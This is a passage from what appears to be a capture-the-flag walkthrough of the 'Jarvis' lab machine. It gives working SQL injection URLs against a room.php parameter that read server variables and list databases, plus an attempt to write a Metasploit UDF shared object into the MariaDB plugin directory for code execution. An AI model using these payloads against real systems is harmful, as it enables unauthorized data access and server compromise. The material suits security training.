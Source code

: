 So we have a user named `pepper`. Checking SSH as root and pepper with "imissyou" doesn't work :cry:

Next, let's see if we can get code execution using a UDF exploit. First get host OS and plugin information by grabbing the `@@version_compile_os`, `@@version_compile_machine`, and `@@plugin_dir` variables:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20NULL,%20@@version_compile_os,%20NULL,%20@@plugin_dir,%20@@version_compile_machine,%20NULL,NULL;%20--+
```

The machine is `debian-linux-gnu, x86_64`, and the plugin directory is `/usr/lib/x86_64-linux-gnu/mariadb18/plugin/`.

```sh
# find metasploit's udf shared object file
❯ locate udf | grep '.so'

# grab file into local exploit folder
❯ mkdir exploit
❯ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so exploit/derp.so

# hex encode the file and copy it to the clipboard
❯ cat exploit/derp.so| xxd -p | tr -d '\n' | xclip -sel clip
```

Now dump the shellcode into a plugin file on Jarvis:

```
10.10.10.143/room.php?cod=1 AND 1=0 UNION SELECT binary 0x<SHELLCODE> into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb18/plugin/derp.so'; --+
```

But the request is too long and fails:

![](img/web-shellcode-fail.png)

Time to explore more of the database. Let's start with databases using `group_concat(distinct schema_name) from information_schema.schemata`:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20null,group_concat(distinct%20schema_name),null,null,null,null,null%20from%20information_schema.schemata;%20--+
```

And we get: `hotel,information_schema,mysql,performance_schema`

Next list the tables of the `hotel` db, hoping to get a list of users since there is a "sign in" link:
